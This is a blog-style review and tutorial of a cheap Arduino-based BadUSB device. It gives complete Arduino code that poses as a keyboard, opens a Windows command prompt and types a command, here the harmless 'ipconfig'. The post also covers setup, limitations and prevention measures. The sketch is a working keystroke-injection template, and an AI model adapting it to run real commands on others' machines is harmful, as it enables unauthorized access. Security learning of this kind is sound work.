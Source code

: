 ```yaml
---
layout: post
permalink: /posts/hacking-tools/hardware/badusb
title: "Des's review: BadUSB - an Arduino based keystroke"
date: 2020-08-15 21:46
tags: review badusb arduino
description: "Badusb is a dangerous USB that allows attackers to inject malicious command-line either locally or remotely."
---
```


## Introduction

Badusb is a dangerous USB that allows attackers to inject malicious command-line either locally or remotely. With this Badusb device, the attacker is able to steal sensitive information, download files and even destroy your computer. In addition, this tool works on Windows, Linux, and macOS which made almost all the computer/IoT devices vulnerable to this attack.

Recently, I brought a $6 Badusb (Built with Arduino micro) from China.

![badusb](/assets/images/hacking-tools/hardware/2020-08-15-badusb/1.jpg)

Of course, they usually came with a different variation, some contain micro SD card slot, some with WiFi-module (ESP-12E/F) and even a combination of two.

![variation](/assets/images/hacking-tools/hardware/2020-08-15-badusb/2.jpg)

The main microcontroller used for this USB is usually labeled with ATmega32U4. This microcontroller can be found on Arduino Micro and Arduino Leonardo. The reason is, [the controller supports the keyboard function](https://www.arduino.cc/reference/en/language/functions/usb/keyboard/) while the conventional ATmega328 (Arduino UNO) does not support the function.

In this article, I'm going to perform a simple command-line injection.

## Installation

The tool that you required before the attack:

Software:<br>
1. [Arduino IDE](https://www.arduino.cc/en/main/software)
1. Window 10 (as the victim)

Hardware:<br>
1. Badusb (Any Badusb with ATmega32u4)

After acquiring all the necessary tools, launch your Arduino IDE program. The IDE supports C/C++ but with a small twist but I'm not going to cover it. As long as you are good at C/C++, it should be a piece of cake. For your information, the two functions, **setup()** and **loop()** are the backbones in coding an Arduino device such that,

```c++
void setup()
{
  //The function only run once
}

void loop()
{
  //The function is a loop similar to while(1)
}
```

The **setup()** function only runs once while the **loop()** function executes infinitely, just like **while(1)**. Usually, we initialize all the parameters in setup() function e.g calibrating a temperature sensor. On the other hand, we used loop() function to collect the data e.g measure the temperature. However, this is not the case for this scenario as we are going to use the microcontroller to interact with the software (Executing command line) instead of hardware. We only need to execute the script once.

That's all for the short briefing on the Arduino programming. Next, copy the following code and compile it (The compile button is located at the top left)

```c++
#include <Keyboard.h>

void press_enter()
{
  Keyboard.press(KEY_RETURN); //Press enter key
  Keyboard.release(KEY_RETURN); //Release enter key
  delay(500);
}

void setup()
{
  //Nothing...
}

void loop()
{
  Keyboard.press(KEY_LEFT_GUI); //Press windows key
  delay(500);
  Keyboard.press('r'); //Press 'r' key
  Keyboard.releaseAll(); // Release to execute "wins + r", which is run.
  delay(500);
  Keyboard.print("cmd"); //Type 'cmd'
  press_enter();
  Keyboard.print("ipconfig"); // Payload
  press_enter();
  while(1); // Important! It stops loop execution.
}
```

Check the serial com port of the device.

![device](/assets/images/hacking-tools/hardware/2020-08-15-badusb/3.png)

I got mine on COM 8. Set up the device (Usually a micro) and COM port on the Arduino IDE using the tool tab.

![ide](/assets/images/hacking-tools/hardware/2020-08-15-badusb/4.png)

After that, upload the program into the device and you should see the effect.

![the gif](/assets/images/hacking-tools/hardware/2020-08-15-badusb/5.gif)

## Limitation

The problem with the Arduino based Badusb is the system must have an Arduino driver installed which made the attack less flexible.

## Prevention

Rest assured, there is a way to prevent the BadUSB attack. Year and year, the researcher named dave has published a paper on how to prevent the BadUSB attack on the Linux system but it is best for you to check [the post](https://davejingtian.org/2015/12/03/defending-against-malicious-usb-firmware-with-goodusb/) and [the github](https://github.com/daveti/GoodUSB/tree/master/kernel).

As for windows users, the best prevention is to [set up policy](https://heimdalsecurity.com/blog/badusb-exploit-vulnerability-fix/) while plug in a new USB. Of course, this method is quite troublesome in the future when you wanted to install a new HID or network driver. At least it saves you from the attack.

## Des's review

### The pro
1. Portable and affordable
1. Easy to code with since it working with Arduino IDE
1. Performing remote keystroke logging providing WiFi SoC available on the badusb

### The con
1. Driver is needed to perform the attack
2. Easily spotted by the victim compared to backdoor program
3. Close-quarter attack when attacker have to plug-in the USB

Des's score: 3/5 (A good piece of hardware but poor flexibility)

## Conclusion

That's all for the Badusb introduction tool. For the next coming post, we will discuss more on remote Badusb attack.
